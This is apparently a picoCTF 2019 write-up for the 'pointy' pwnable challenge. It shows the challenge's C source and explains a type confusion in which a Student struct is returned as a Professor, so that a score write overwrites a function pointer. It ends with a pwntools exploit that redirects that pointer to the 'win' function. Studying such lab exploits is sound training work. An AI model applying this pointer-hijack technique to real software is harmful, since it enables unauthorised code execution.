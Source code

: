 ```yaml
---
title: "pointy - picoCTF 2019"
description: "pointy challenge picoCTF 2019 writeup"
summary: "pointy challenge picoCTF 2019 writeup"
categories: ["Writeup"]
tags: ["Pwnable"]
#externalUrl: ""
date: 2023-03-10
draft: false
authors:
  - th3_5had0w
---
```


## Pointy

What does this program do?

It will make a loop which will:

1. Create a new student struct and ask for student name

2. Create a new professor struct and ask for professer name

3. Search for the student who will give a professor some point

4. Search for the professor who will be given some point by the student chosen at step 3

5. Give the professor point

We could clearly see there are some bugs in vuln.c right in the first place

```c
int main (int argc, char **argv)
{
    while(ADRESSES_TAKEN<MAX_ADDRESSES-1){
        printf("Input the name of a student\n");
        struct Student* student = (struct Student*)malloc(sizeof(struct Student));
        ADDRESSES[ADRESSES_TAKEN]=student;	//1: student struct was saved in ADDRESSES array
        readLine(student->name);
        printf("Input the name of the favorite professor of a student \n");
        struct Professor* professor = (struct Professor*)malloc(sizeof(struct Professor));
        ADDRESSES[ADRESSES_TAKEN+1]=professor;  //2: professer struct was also saved in ADDRESSES array
        readLine(professor->name);
        student->scoreProfessor=&giveScoreToProfessor; //3: student->scoreProfessor is a function pointer point to giveScoreToProfessor
        ADRESSES_TAKEN+=2;
        printf("Input the name of the student that will give the score \n");
        char  nameStudent[NAME_SIZE];
        readLine(nameStudent);
        student=(struct Student*) retrieveStudent(nameStudent);
        printf("Input the name of the professor that will be scored \n");
        char nameProfessor[NAME_SIZE];
        readLine(nameProfessor);
        professor=(struct Professor*) retrieveProfessor(nameProfessor); //4: struct professor's change depends on retrieveProfessor function
        puts(professor->name);
        unsigned int value;
            printf("Input the score: \n");
            scanf("%u", &value);
        student->scoreProfessor(professor, value); //5: point will be given through function scoreProfessor
    }
    return 0;
}
```
We can now sense some buggy smell throught that 5 place

```c
struct Professor {
    char name[NAME_SIZE];
    int lastScore;
};

struct Student {
    char name[NAME_SIZE];
    void (*scoreProfessor)(struct Professor*, int);
};
```
The offset of Student->scoreProfessor is the same as Professor->lastScore

```c
void* retrieveProfessor(char * name ){
    for(int i=0; i<ADRESSES_TAKEN;i++){
        if( strncmp(((struct Student*)ADDRESSES[i])->name, name ,NAME_SIZE )==0){
            return ADDRESSES[i];
        }
    }
    puts("person not found... see you!");
    exit(0);
}
```
The struct student and professor are on the same array, but this `retrieveProfessor` doesnt check for name if the professor has the same name as the student, this is the critical bug!

So now if we input `A` as the student name, `A` as the professor name, `A` for the student that will give score (bypass the program check).

And finally `A` as the professor name, the `retrieveProfessor` will now try to search professor named `A` but the student named `A` is at the first index of the array, so the program will give the `professor`  struct variable the `student` struct, and then because the offset of `Student->scoreProfessor` is the same as `Professor->lastScore`, the program will change the function pointer `Student->scoreProfessor` to the number of point, this was performed in `giveScoreToProfessor` function of struct `student`.

```c
void giveScoreToProfessor(struct Professor* professor, int score){
    professor->lastScore=score; // professor->lastScore is actually student->scoreProfessor because the program chose the student struct as professor struct and professor->lastScore is the same offset as student->scoreProfessor
    printf("Score Given: %d \n", score);

}
```
And i got this final exploit:
```python
from pwn import *

io = process('./vuln')
elf = ELF('./vuln')

def givescore(student, teacher, StudentGiveScore, teacherBeingGivenScore, score):
        print(io.recv())
        io.sendline(student)
        print(io.recv())
        io.sendline(teacher)
        print(io.recv())
        io.sendline(StudentGiveScore)
        print(io.recv())
        io.sendline(teacherBeingGivenScore)
        print(io.recv())
        io.sendline(str(score))

givescore(b'A', b'A', b'A', b'A', elf.sym['win'])
givescore(b'lmao', b'bruh', b'A', b'bruh', 1)
print(io.recv())
```